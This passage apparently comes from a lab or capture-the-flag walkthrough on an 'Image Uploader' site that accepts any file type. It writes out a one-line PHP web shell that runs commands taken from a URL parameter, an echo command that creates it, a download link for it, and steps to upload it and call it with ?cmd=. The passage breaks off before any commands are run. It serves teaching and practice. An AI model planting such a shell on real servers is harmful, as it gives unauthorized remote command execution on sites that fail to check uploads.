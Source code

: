 
So we know we can upload images, but just because our website says “Image Uploader” doesn’t mean we can ONLY upload images.
Let’s try some arbitrary text file, and see if that will work for us.


Create a simple textfile and try to upload it the same way. 
I am going to create mine using… 

`echo 'An image is worth 1000 words.' > proverb.txt`

Let’s try uploading it.


![A10](https://i.imgur.com/RH2fLfF.png)

![A11](https://i.imgur.com/uXUrKCj.png)


It worked! Now let’s pay it a visit at /uploads1/proverb.txt


![A12](https://i.imgur.com/M6I0tAm.png)



Success!
It doesn’t look like this site is checking our files very closely.
Now that we have proven we can upload text files, let’s try to upload a payload script and start the attack.
Since we know we are running php, we can use a php "microshell" which allows us to simply add commands we want to run on the webserver at the end of a URL.
I got this microshell script from the Red Team Field Manual by Ben Clark.


`<?php passthru($_GET["cmd"]); ?>`


I save mine to a text file using echo.

`echo '<?php passthru($_GET["cmd"]); ?>' > php-microshell.php`

You can copy and paste if you like, but make sure that your browser doesn’t change the quotation mark characters out of plaintext!
If you want to be sure, just delete them and add them yourself. 

If you want to be REALLY sure, you can [download the shell from me.](https://raw.githubusercontent.com/berzerk0/pastehost/master/php-microshell.php)


If this shell works the way we hoped, we can just append "?cmd=commands" (without quotation marks) to the end of our URL. 


Go ahead and upload the php-microshell.php using the same method we have used so far, then visit /uploads1/php-microshell.php


![A13-blankmicroshell.png](https://i.imgur.com/PKkBMDn.png)

There is nothing here! Well, not yet. We need to add some commands into the URL first.
